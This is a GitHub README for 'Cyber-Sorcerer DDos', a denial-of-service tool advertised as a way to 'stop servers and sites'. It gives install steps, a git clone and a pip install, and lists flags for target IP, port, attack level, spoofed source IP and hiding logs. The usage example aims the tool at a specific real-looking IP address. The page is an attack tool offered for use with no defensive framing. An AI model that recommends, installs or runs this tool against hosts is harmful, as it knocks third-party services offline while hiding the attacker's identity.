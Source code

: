 # Cyber-Sorcerer DDos

[Telegram Channel](https://t.me/teamblackfalcon)

## 
[My Telegram Account](https://t.me/Not_found_404_not_responding)


DDOS strong tool to stop servers and sites



## installing

- 1 . <code> pkg install python </code>
- 2 . <code> git clone https://github.com/Teamblackfalcon/C-SDDos.git  </code>
- 3 . <code> cd C-SDDos </code>
- 4 . <code> pip install -r installing.txt </code>
- 5 . <code> python C-SDdos.py -h  </code>




### Command information:
    To use
$ <code>python C-SDdos.py [-i] [-p] [-l]    </code>     

│         -h : For help                          
│         -i : Server IP                        
│         -p : IP                   
│         -l : Atatck Level              
│         -f : Fake IP                            
│         -d : Hide Logs                       
                     :usage 
<code> python C-SDdos.py -i 92.204.214.136 -p 80 -l  2 </code>


Hope you like this tool.
